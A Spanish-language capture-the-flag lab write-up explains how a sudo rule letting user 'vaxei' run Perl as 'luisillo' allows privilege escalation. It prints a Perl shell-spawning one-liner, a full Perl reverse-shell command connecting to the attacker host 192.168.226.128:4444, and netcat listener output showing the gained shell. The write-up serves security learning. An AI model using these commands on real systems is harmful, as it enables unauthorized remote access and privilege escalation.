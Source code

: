 ## ¿Qué es **Perl**?

**Perl** (Practical Extraction and Report Language) es un **lenguaje de programación interpretado**, muy usado en entornos Unix/Linux desde los años 80.

Es conocido por ser:

- Súper flexible (como una mezcla entre Bash y Python)
- Ideal para manipular texto, archivos y automatizar tareas
- Capaz de ejecutar **comandos del sistema** desde dentro del código

## ¿Por qué **Perl con SUDO** es peligroso?

Cuando en un sistema Linux se permite ejecutar **Perl como otro usuario con `sudo`**, como en tu caso:

Significa que el usuario `vaxei` puede correr cualquier script o comando desde Perl **como otro usuario (en tu caso, `luisillo`)** sin contraseña.

Y esto es peligroso porque:

### **Perl puede ejecutar comandos del sistema**

Con una sola línea puedes obtener una shell del sistema:

```bash
perl -e 'exec "/bin/bash";'
```

### Payload utilizado

Para obtener acceso como `luisillo` mediante una reverse shell, se utilizó un one-liner en Perl que crea una conexión TCP saliente hacia nuestra máquina atacante. Esto nos permite obtener una shell interactiva remotamente.

```bash
vaxei@2af585ee55bb:~$ sudo -u luisillo perl -e 'use Socket;$i="192.168.226.128";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

### Resultado

Se recibio una conexion exitosa a traves de la reverse shell

```bash
─(zikuta㉿zikuta)-[~/Desktop/psycho]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.226.128] from (UNKNOWN) [172.17.0.2] 48882
luisillo@2af585ee55bb:/home/vaxei$ cd ../../../
cd ../../../
luisillo@2af585ee55bb:/$
```

## Consideraciones técnicas
